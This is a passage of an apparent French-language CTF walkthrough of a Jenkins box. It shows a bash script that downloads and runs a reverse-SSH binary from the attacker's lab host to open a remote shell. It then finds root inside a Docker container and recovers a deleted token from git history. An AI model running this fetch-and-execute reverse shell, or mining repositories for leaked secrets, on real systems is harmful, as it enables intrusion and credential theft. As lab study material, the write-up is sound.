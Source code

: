 Le logiciel s'attend à voir un script avec le shebang en première ligne. J'ai opté une nouvelle fois pour ReverseSSH :  

```bash
#!/bin/bash
wget "http://192.168.56.1:8000/reverse-sshx64" -O /tmp/reverse-sshx64
chmod 755 /tmp/reverse-sshx64
/tmp/reverse-sshx64 -v -p 2244 192.168.56.1
```

Une fois connecté on remarque que l'on est dans un Docker (sans quoi ce serait déjà terminé) :  

```plain
root@7b5f8aa938da:/var/jenkins_home/workspace/yolo# id
uid=0(root) gid=0(root) groups=0(root)
root@7b5f8aa938da:/var/jenkins_home/workspace/yolo# ls -a /
.  ..  .dockerenv  bin  boot  dev  docker-java-home  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

This is not the way
-------------------

En listant les fichier dans */root* je remarque un dossier *.git* comme quoi le dossier est versionné.  

On peut utiliser les commandes Git pour en savoir plus...  

```plain
root@7b5f8aa938da:/root# git log 
commit e7045388b6b30739fd29f577903ab778502c4895
Author: swapneil <swapneil.dash2@gmail.com>
Date:   Tue Jan 28 15:43:53 2020 +0000

    Finally deleted the sensitive data from my box

commit 471a632ca787f2c70e795185050f4da9f2a39432
Author: swapneil <swapneil.dash2@gmail.com>
Date:   Tue Jan 28 15:43:08 2020 +0000

    this is an intersting commit

root@7b5f8aa938da:/root# git show e7045388b6b30739fd29f577903ab778502c4895
commit e7045388b6b30739fd29f577903ab778502c4895
Author: swapneil <swapneil.dash2@gmail.com>
Date:   Tue Jan 28 15:43:53 2020 +0000

    Finally deleted the sensitive data from my box

diff --git a/Git?Scope? b/Git?Scope?
deleted file mode 100644
index eafd2fc..0000000
--- a/Git?Scope?
+++ /dev/null
@@ -1,2 +0,0 @@
-I need to delete this token, so no one can access it!
-512fb73b2108f9c882fe3ff559ef4bc9496f4dc2
```

